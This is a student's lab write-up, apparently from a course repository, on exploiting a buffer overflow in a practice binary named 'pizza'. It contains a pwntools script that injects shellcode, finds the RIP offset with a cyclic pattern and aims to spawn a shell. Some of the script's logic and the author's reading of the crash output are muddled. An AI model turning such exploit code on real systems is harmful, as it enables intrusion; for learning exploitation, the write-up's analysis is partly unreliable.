 #  Control Flow Integrity Violation 


The Weeks Lab focus was on Writing a python script using `pwntools` that executes a given program named `pizza.c`, leaks the stack offset, and spawns a shell. Technique used is `buffer overflow`

---

After downloading the victim program: pizza to my desktop and executed it in my terminal with the command `./pizza`; I obtained the error output `bash: ./pizza: Permission denied`, hence, I added execute permissions to the pizza file with the command chmod +x pizza. Rerun the victim program named pizza and did not encountered error.

After running the victim program: pizza to see how it works as it can be shown from the image below:

![Screenshot from 2023-04-30 12-09-30](https://user-images.githubusercontent.com/66968869/235370146-73381ada-ad4d-47cd-9d69-4d2da068bf7f.png)

I then proceeded to Install pwntools by running `pip install pwntools` in my terminal to install pwntools library for Python on my system.

I tried getting to make the victim program "pizza" to crash by entering a long string of the alphabet `A` as my name or prompt for illustration. This led to an output with a segmentation fault in the image as shown below:

![Screenshot from 2023-04-30 12-53-35](https://user-images.githubusercontent.com/66968869/235371217-5ed04c10-2570-4632-a599-71713944d353.png)

Also using format strings to make something strange happen; by running the executable "pizza" and passing in some format string characters, it can be seen that the program is vulnerable(by providing memory addresses) as it can be seen from the image below as a sample output:

![Screenshot from 2023-04-30 16-07-40](https://user-images.githubusercontent.com/66968869/235378266-9a28a003-1ae5-4af0-8cc7-232930b2ebbe.png)

Moreover, running the file `python3 python_injection.py` provided the output below:

![Screenshot from 2023-04-30 16-00-49](https://user-images.githubusercontent.com/66968869/235378272-5416a3b1-c783-46f2-a5bf-8a86afd1dea4.png)

Furthermore, Opening the executable in Ghidra to really see how it works (and the library functions it is using). From the C code in Ghidra disassemble pane it can be seen that, the program is a basic pizza delivery application that accepts a user's name, the quantity of pizzas they wish to purchase, and their credit card information and then calculates the total cost of the transaction. In terms of how it works; the program starts by declaring some variables, including a pointer to a character array that will hold the user's name, a pointer to a block of memory allocated with malloc, and various local variables of different types. The program then prompts the user to enter their name using the print function and reads the input using the getline function. If getline returns 0, the program exits with an error message otherwise, the program then calls the getname function (a custom function defined), passing it pointers as arguments. The program then enters a loop that prompts the user to enter the number of pizzas they want to order using the print function and reads the input using the scanf function. This loop continues until the user enters a valid number between 1 and 10. Once the user enters a valid number, the program calculates the total cost of the order and displays a message using the printf function.The program then reads the user's credit card information using the scanf function and displays a confirmation message using the printf function. The program makes use of the following library functions including but not limited to `malloc` to allocate memory dynamically, `getline` to read input from the user, `printf` to display messages to the user and `scanf` to read input from the user.

Lastly, running the victim program "pizza" in GDB.

## python script using `pwntools` that executes the given program [pizza], leaks the stack offset, and spawns a shell.
Below is a script in python to run the pizza program, getting the pizza program executable to crash (segfault), stack offset and spawning of the shell. 
```
#!/usr/bin/env python3

from pwn import *

#Context Set UP
context.arch = 'amd64'
context.os = 'linux'

binary = './pizza'

# Defining payload
offset = 72  # found via manual testing
shellcode = asm(shellcraft.amd64.linux.sh())
padding = b'A' * (offset - len(shellcode))
payload = shellcode + padding + p64(0xdeadbeef)

p = process(binary)

p.sendline(payload)

# Get RIP offset
pattern = cyclic(1000, n=8)
p = process(binary)
p.sendline(pattern)
p.wait()
core = p.corefile
rip_offset = cyclic_find(core.rip, n=8)
log.info(f'RIP offset: {rip_offset}')

# Building final payload
padding = b'A' * rip_offset
rip = p64(core.rip)
payload = padding + rip + b'\n'
p = process(binary)
p.send(payload)

# Interaction with the shell
p.interactive()

```
The #!/usr/bin/env python3 instruction at the beginning of this script is used for specifying the version of python interpreter and its dependencies to use when parsing the script. rAlso the instruction `from pwn import *` which is normally used in exploit development to import the "pwntools" library, to provide a set of useful tools and utilities for interacting with vulnerable programs and services and also  providing functionalities for compiling and executing shellcode. Also,
context is one of the function's of "pwntools" library that is used to set various context variables that affect the behavior of the library when interacting with vulnerable programs and services. Arch, os, endian, and word_size variables are some of the options that can be set using the context function. Also the command `binary = './pizza'` to define the targeted executable and linkable format. After starting the process, I then went on to create a payload that exploits a buffer overflow vulnerability in a vulnerable program through overwriting the return address of a function call with the address of the payload in memory. Then the pizza program is started and then went on to send the created exploit payload to the vulnerable program. The p object is an instance of the process class in the pwntools library that represents a running process or service.

![Screenshot from 2023-05-01 07-03-16](https://user-images.githubusercontent.com/66968869/235553801-eab2b4a9-3a04-43ee-b9b3-01a0da7dcc42.png)

Based on the output of the log  after running `python3 python_injection.py`,  it can be seen that a segmentation fault occurred and a core dump was generated. The line "Process './pizza' stopped with exit code -11 (SIGSEGV)" indicates that the program crashed due to a segmentation fault (SIGSEGV signal). The subsequent lines indicate that a core dump was generated and then parsed. The core dump indicates that there was a segmentation fault (SIGSEGV) in the process or program named `pizza` which was executed with an exploit program named `pizza_injection.py` and the pizza program pid is 63118. The RIP (Instruction Pointer) register had a value of 0x40142e when the process encountered the segmentation fault. The RSP (Stack Pointer) register had a value of 0x7ffe8e2ec6c8. The fault address (0x6161616163626161) is the ASCII representation of the string "aabacaa", which suggests that there might be a buffer overflow vulnerability in the program. Also, with the RIP offset of -1 from the RIP value in the crashed process, this indicates a stack overflow, where the attacker is able to overwrite the return address and redirect the program execution to a different location.

The program was then restarted with a new process ID of 63132. It accepted input from the user, processed it without issue, and exited normally, because of the possibility that the issue was resolved in the new instance of the program.

